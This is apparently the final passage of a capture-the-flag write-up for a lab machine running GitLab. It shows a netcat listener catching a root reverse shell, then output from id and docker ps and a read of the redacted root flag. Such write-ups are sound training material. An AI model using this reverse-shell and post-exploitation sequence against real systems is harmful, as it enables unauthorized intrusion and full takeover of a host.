 ```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.220] 38246
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                   NAMES
7eb263389e5e        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   2 months ago        Up 5 hours (healthy)   22/tcp, 443/tcp, 0.0.0.0:5080->80/tcp   docker-gitlab_web_1
# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed.

See you in the next post! :smile:
